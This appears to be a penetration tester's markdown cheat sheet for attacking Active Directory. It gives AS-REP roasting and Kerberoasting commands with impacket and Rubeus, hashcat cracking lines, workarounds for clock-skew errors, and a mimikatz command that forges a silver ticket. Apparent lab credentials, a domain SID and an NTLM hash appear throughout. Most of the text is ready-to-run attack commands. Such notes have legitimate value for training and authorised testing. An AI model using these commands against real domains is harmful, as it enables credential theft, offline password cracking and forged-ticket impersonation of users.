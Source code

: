 ```
impacket-GetNPUsers nagoya-industries.com/Fiona.clark:Summer2023 -dc-ip 192.168.183.21  -request -outputfile hashes.asreproast 

hashcat -m 18200 -a 0 passwords_kerb.txt hashes.asreproast
```
```
Windows way:

.\Rubeus.exe asreproast /nowrap
hashcat -a 0 -m 18200 hashes.asreproast2 rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```
#### Kerberoasting
>The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets are encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline. You can know that a user account is being used as a service because the property "ServicePrincipalName" is not null.

>Therefore, to perform Kerberoasting, only a domain account that can request for TGSs is necessary, which is anyone since no special privileges are required.

>You need valid credentials inside the domain.
```
Check all SPNs within the domain:
setspn -Q */*
```
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
hashcat -a 0 -m 13100 hashes.kerberoast rockyou.txt
```
>Linux Way of Kerberoasting
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 domain/username:pass -outputfile <output_TGSs_file>
```
>Clock skew too great Error
```
sudo timedatectl set-ntp off
sudo rdate -n 10.10.10.100
Open a new terminal

sudo ntpdate -s domain
```
#### Silver Tickets(Require SPN's hash, Domain's SID, SPN)
>Service hash required 

>Since silver and golden tickets represent powerful attack techniques, Microsoft created a security patch to update the PAC structure.5 With this patch in place, the extended PAC structure field PAC_REQUESTOR needs to be validated by a domain controller. This mitigates the capability to forge tickets for non-existent domain users if the client and the KDC are in the same domain. Without this patch, we could create silver tickets for domain users that do not exist. The updates from this patch are enforced from October 11, 2022.
```
whoami /user
kerberos::purge
kerberos::golden /user:jeffadmin(impersonated user) /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668(domain SID part from whoami /user) /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327(password hash of iis_service) /ptt
kerberos::list
```
```
Get Domain's sid:
Get-LocalUser -Name 'svc_mssql' | select name,sid(result without the last 3digits)

String Convert to NTLM hash:
https://codebeautify.org/ntlm-hash-generator

```